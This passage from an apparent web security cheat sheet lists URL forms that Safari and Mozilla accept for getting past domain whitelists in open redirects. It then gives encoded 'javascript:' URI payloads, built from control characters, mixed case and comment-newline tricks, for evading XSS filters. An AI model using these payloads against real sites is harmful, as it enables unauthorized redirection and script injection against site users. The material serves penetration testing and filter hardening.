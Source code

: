 #### Safari browser
Safari considers these domains valid:
```powershell
https://{whitelistdomain}.,.example.com/
https://{whitelistdomain}.;.example.com/
https://{whitelistdomain}.!.example.com/
https://{whitelistdomain}.'.example.com/
https://{whitelistdomain}.".example.com/
https://{whitelistdomain}.(.example.com/
https://{whitelistdomain}.).example.com/
https://{whitelistdomain}.{.example.com/
https://{whitelistdomain}.}.example.com/
https://{whitelistdomain}.*.example.com/
https://{whitelistdomain}.&.example.com/
https://{whitelistdomain}.`.example.com/
https://{whitelistdomain}.+.example.com/
https://{whitelistdomain}.=.example.com/
https://{whitelistdomain}.~.example.com/
https://{whitelistdomain}.$.example.com/
```

##### Mozilla browser
Mozilla considers these domains valid:
```powershell
https://{whitelistdomain}.+.example.com/
https://{whitelistdomain}.$.example.com/
```

### JavaScript Filter Evasion Payloads
Never stop at open redirection because there is always a chance for it to be DOM based. Always look for opportunity to improve impact as this can show the real danger behind this vulnerability. 

##### Bypassing `javascript` word filter
Several special characters can be used before, inside and after the `javascript` keyword such as `%0D` carriage-return, `%0A` new-line and `%09` tab characters while special characters (`%01`-`%1F`) can be used before to avoid filters. The keyword is also case-insensitive which helps against some filters. Modern browsers and most filters can easily detect and block `alert` command, so `prompt` or `console.log` is preferred for testing purposes.
```js
%01jA%0Ava%09scr%09ipT%0D:prompt(document.domain)
%0AjAva%0d%0ascr%09ipT%0d%0a:prompt(document.domain)
%09jAv%09ascr%09ipT:prompt(document.domain)
```

##### Other bypasses
Like before, filters can be tricked by special characters in unexpected places. Most common examples include the `%09` tab, `%0D` carriage-return and `%0A` new-line characters among others:
```js
//javascript:prompt(1)
/\javascript:prompt(1)
\\javascript:prompt(1)
/%0A/javascript:prompt(1)
/%09/javascript:prompt(1)
/%0A/javascript:prompt(1)
\%09\javascript:prompt(1)
\%0A\javascript:prompt(1)
%0D%0A//javascript:prompt(1)
%0D%0A\\javascript:prompt(1)
```
This special payload uses the fact that JavaScript sees `//` as single-line comment and makes use of newline-character to break out of it:
```js
javascript://something%0aalert(1)
javascript://something%250aalert(1)
```
